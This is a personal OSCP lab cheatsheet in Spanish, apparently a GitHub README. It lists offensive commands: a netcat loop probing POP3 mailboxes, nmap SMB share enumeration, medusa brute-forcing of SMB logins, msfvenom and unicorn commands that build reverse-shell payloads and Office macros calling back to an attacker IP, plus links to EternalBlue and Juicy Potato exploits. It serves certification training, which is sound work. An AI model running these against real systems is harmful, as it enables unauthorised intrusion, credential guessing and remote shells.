 # Another-OSCP-Cheatsheet
Os introduzco aquí la cheatsheet personal que he ido usando durante mi recorrido por los labs del OSCP:

## POP3 enum
Este script de bash nos permite enumerar un servicio POP3 para tratar de encontrar algún correo en alguno de los usuarios que hemos encontrado en la etapa de reconocimiento:

    for user in <user1> <user2> <user3>.. <userX>; do
    ( echo USER ${user}; sleep 2s; echo PASS abcd; sleep 2s; echo LIST; sleep 2s; echo quit) | nc -nvC <ip> <port>;  done
## SMB enum
**SHARES**
Analiza que shares de SMB están disponibles con un usuario invitado:

    nmap <ip> --script=smb-enum-shares
**SMB USER/CHECK**
Comprueba esa gigante wordlist de usuarios que has ido reuniendo durante la etapa de reconocimiento, fácil y sencillo:

    medusa -M smbnt -h <ip> -U userfile -P passfile -m GROUP:DOMAIN -v 4	
## MSFVenom Payloads
**Windows Payload**  
Intercambia el x64 por x86 si estás en una máquina de 32 bits:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR IP> LPORT=<PORT> -f <format; example: jsp, php..> > file.<format>
    
**Linux Payload**  
Intercambia el x64 por x86 si estás en una máquina de 32 bits:

    msfvenom -p linux/x64/shell_reverse_tcp LHOST=<YOUR IP> LPORT=<PORT> -f <format; example: jsp, php..> > file.<format>

## Kernel Cross-Compiling

Especialmente útil si estás enfrentando una caja old-school que aún tiene un SO de 32 bits (créeme, hay muchiiiisimas cajas así en los labs del OSCP xd)  
Utiliza la opción --static sabiamente https://stackoverflow.com/questions/8692128/static-option-for-gcc

    gcc ¿--static? -m32 -Wl, --hash-style=both <nombre.c> -o <output>			
## MACRO PAYLOAD
**UNICORN** es una herramienta FANTÁSTICA que debes usar en tu trayecto por los labs del OSCP, si debes crear cualquier macro para una suite office, este software te va a facilitar la vida enormemente https://github.com/trustedsec/unicorn

    python unicorn.py windows/x64/shell_reverse_tcp 11.1.1.151234 macro
    
## Common Exploits
**MS17-010** Si te enfrentas a EternalBlue :) https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/  
**Juicy Potato** Si cuentas con un usuario y al hacer "whoami /priv" cuenta con privilegios SeImpersonate o SeAssignPrimaryToken... https://github.com/ohpe/juicy-potato

## Exploit search

    searchsploit <service name>
    
## Windows Privesc Checklist

https://guif.re/windowseop  
https://www.fuzzysecurity.com/tutorials/16.html
    
